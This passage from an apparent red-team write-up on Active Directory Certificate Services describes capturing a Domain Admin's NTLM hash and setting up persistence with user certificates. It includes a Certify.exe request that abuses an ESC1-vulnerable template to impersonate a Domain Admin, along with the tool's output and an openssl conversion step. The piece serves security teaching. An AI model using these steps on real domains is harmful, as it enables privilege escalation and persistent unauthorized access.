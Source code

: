 
As you can see, I was able to capture the NTLM hash of my user, who is the owner of the template I used and also a Domain Admin within the environment. And as I mentioned, no matter how many times the user changes their password, you will always capture the current hash, all of this without even touching the **LSASS** process.

## Persistence by user certificate

It is also possible to create persistence in the environment through certificates for the user. The idea here is that you already have elevated access within the environment, such as a Domain Admin, to issue this certificate on behalf of a high-privilege user you want to maintain access to.

The step-by-step would be:
- Gain access to a high-privilege user (i.e., DA & EA).
- Request a certificate for that user using a template that allows **Client Authentication**.

By default, ADCS has some templates that allow **Client Authentication**, such as the **User** template, which we will use to generate the certificate for our user. Typically, these certificates have a validity of 1 year, but when they are about to expire, you can simply reissue the same certificate.

In the context below, I have a low-privileged user in my environment, and I will be issuing the certificate in the name of a template vulnerable to ESC1. This will result in a ticket with the Domain Admin user, which will be our target for persistence.

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"CORP - Kerberos Authentication" /altname:paulo.victor


     _____          _   _  __
    / ____|        | | (_)/ _|
    | |     ___ _ __| |_ _| |_ _   _
    | |    / _ \ '__| __| |  _| | | |
    | |___|  __/ |  | |_| | | | |_| |
     \_____\___|_|   \__|_|_|   \__,|
                                __/ |
                                |___/
    v1.0.0

    [*] Action: Request a Certificates

    [*] Current user context    : CORP\danielmoura
    [*] No subject name specified, using current context as subject.

    [*] Template                : CORP - Kerberos Authentication
    [*] Subject                 : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] AltName                 : paulo.victor

    [*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

    [*] CA Response             : The certificate had been issued.
    [*] Request ID              : 21

    [*] cert.pem         :

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAveH2b8bqL7smcl...

    -----END CERTIFICATE-----


    [*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```